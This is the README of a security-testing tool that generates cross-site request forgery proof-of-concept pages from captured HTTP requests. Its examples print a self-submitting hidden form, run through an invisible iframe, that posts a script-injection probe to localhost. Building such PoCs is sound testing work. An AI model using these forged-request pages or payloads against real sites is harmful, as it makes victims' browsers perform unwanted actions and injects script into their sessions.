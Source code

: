 # CSRFPoCGenerator
Generate CSRF PoC
![CSRFPoCGenerator screen](https://raw.githubusercontent.com/takubokudori/CSRFPoCGenerator/master/images/CPGscreen.PNG)
---

## Parameters

- send : send type(Form or XHR)
- use fromCharCode : use fromCharCode (XHR only)
- transition on submit : force Transition on Submit
- automatic submitting : submit when opening HTML file
    - specifiable : specify value HTML page(beta)
- HTTP Request : set raw HTTP Request
- URL : Set URL
- method : Set method
- header :Set HTTP header (XHR only)
- enctype : Select enctype
    - boundary : Set boundary for multipart/form-data
- body : Set HTTP body
- title : Downloadable HTML title

## How to use

Click "analyze" to analyze HTTP request & paste

Click "generate and submit" to generate form & submit request.

Click "generate only" to just generate form.

Click "download HTML" to download CSRF PoC HTML.

## Example

### using HTTP Request

Enter the following value.

```
POST http://localhost/post.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ja,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 78
Connection: keep-alive
Cookie: PHPSESSID=PaP2yx9xeWc10XV9mjxBjWb8iu3MmWb6
Upgrade-Insecure-Requests: 1

title=CSRF&name=hello+world&comment=%3Cscript%3Ealert%281%29%3B%3C%2Fscript%3E
```

Then click "analyze" and separate into 5 parameters(URL, method, header, enctype, body).

Then click "download HTML" and download a HTML file.


### using URL method etc...
Enter the following values.

- URL
```
http://localhost/post.php
```

- method
```
POST
```

- enctype
```
application/x-www-form-urlencoded (default)
```

- body
```
title=CSRF&name=hello+world&comment=%3Cscript%3Ealert(1)%3B%3C%2Fscript%3E
```

Then click "generate only" (or "generate and submit" ) and Output a HTML form (and submit request ).
```
<form target="dummyfrm" name="evilform" action="http://localhost/post.php" method="POST" enctype="application/x-www-form-urlencoded">
<input type="hidden" name="title" value="CSRF" />
<input type="hidden" name="name" value="hello world" />
<input type="hidden" name="comment" value="&lt;script&gt;alert(1);&lt;/script&gt;
" />
</form>
<iframe src="x" width="1" height="1" name="dummyfrm" style="visibility:hidden"></iframe>
```

- title
```
Hello CSRF PoC
```

Then click "download HTML" and download a HTML file.

```
<!DOCTYPE html>

<html>
<head>
<meta charset="utf-8">
<title>Hello CSRF PoC</title>
</head>
<body onload="document.evilform.submit();">
<form target="dummyfrm" name="evilform" action="http://localhost/post.php" method="POST" enctype="application/x-www-form-urlencoded">
<input type="hidden" name="title" value="CSRF" />
<input type="hidden" name="name" value="hello world" />
<input type="hidden" name="comment" value="&lt;script&gt;alert(1);&lt;/script&gt;" />
</form>
<iframe src="x" width="1" height="1" name="dummyfrm" style="visibility:hidden"></iframe>
<p>Hello CSRF PoC</p>
</body>
</html>
```

---

# Other

## URL encoding

- URLencode : Set string
```
<script>alert(1);</script>
```

Then click "URL encode" and encode input string.
```
%3Cscript%3Ealert(1)%3B%3C%2Fscript%3E
```

---

# Change log

v1.6

- added transition on submit

v1.5

- added request header feature (XHR)
- added fromCharCode(XHR)

v1.4

- added raw Request
- added detect boundary
- added an option to specifiable value

v1.3

- added XHR multipart/form-data transmission
- added an option to send automatically
- arbitrary enctype

v1.2

- added XHR mode

v1.1

- added enctype setting
- added download function
- fixed typo


